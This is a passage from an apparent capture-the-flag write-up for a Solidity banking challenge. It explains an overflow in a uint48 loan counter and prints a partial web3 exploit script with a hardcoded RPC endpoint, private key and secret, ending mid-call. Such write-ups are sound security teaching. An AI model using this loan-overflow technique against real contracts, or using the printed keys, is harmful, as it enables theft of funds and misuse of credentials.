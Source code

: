 I quickly realized that the only function that was realistically vulnerable to this was `loan`, as you could get as much money as you wanted from `loan`. If you borrowed `2**48 - 1` eth once, then `1` eth a second time, your loan amount was set to 0. What tripped me up during the actual competition was I thought it should have incremented `amount_you_have` as its way of "giving me" the money, and since that line wasn't in there the function was useless. 

What I understood later was that the `msg.sender.call{value:amount}("");` function sends the eth to your wallet and doesn't just increase your amount on the contract. This means you just need to deposit the money you got from the loan and then you can redeem the flag. 

To summarize, this is the exploit chain:
* Borrow `2**48 - 1` eth from the contract (max `uint48` value)
* Borrow `1` eth from the contract, overflowing the `loan` variable and setting it to 0. 
* Deposit `2**48 - 1` eth from your wallet into your account balance (`amount_you_have`)
* Call `isChallSolved()` and profit

### Exploit Code
Here's my [`solve.py` script](/static/ictf-bank/solve.py):
```python
from web3 import Web3


### CONSTANTS ###
RPC_URL = "http://34.30.117.150:47242"
PRIVATE_KEY = "0x4318eeacf357da9bc21e5026ac57070bc8d0a126917c009955d924bdb0707e9e"
PLAYER_ADDRESS = "0x2bab8E11621f77cfA6D60055531292AA2d2A9fc1"
CONTRACT_ADDRESS = "0x59e382A65AE318C05E3A03F7a5bf584AD162CE82"
SECRET = "2cc615254cc1167a3972e317e8838d5234579d4f79c34c83a95c2ba0d55da068"


### INITIALIZATIONS ###
w3 = Web3(Web3.HTTPProvider(RPC_URL))
account = w3.eth.account.from_key(PRIVATE_KEY)

CONTRACT_ABI = [...]
contract = w3.eth.contract(address=CONTRACT_ADDRESS, abi=CONTRACT_ABI)



### EXPLOIT ###
print('Current ether amount:',w3.from_wei(w3.eth.get_balance(PLAYER_ADDRESS), 'ether'))


# Get enough money from a loan to buy the flag
transaction = contract.functions.loan(2**48 - 1).build_transaction({
    'from': PLAYER_ADDRESS,
    'nonce': w3.eth.get_transaction_count(PLAYER_ADDRESS),
    'chainId': w3.eth.chain_id
})
signed_transaction = w3.eth.account.sign_transaction(transaction, PRIVATE_KEY)
transaction_hash = w3.eth.send_raw_transaction(signed_transaction.rawTransaction)
transaction_receipt = w3.eth.wait_for_transaction_receipt(transaction_hash)
print(f"Transaction hash: {transaction_hash.hex()}")


# verify you have enough
print('Current ether amount:',w3.from_wei(w3.eth.get_balance(PLAYER_ADDRESS), 'ether'))


# Get 1 eth from loan so loan amount overflows to 0
transaction = contract.functions.loan(1).build_transaction({
    'from': PLAYER_ADDRESS,
    'nonce': w3.eth.get_transaction_count(PLAYER_ADDRESS),
    'chainId': w3.eth.chain_id
```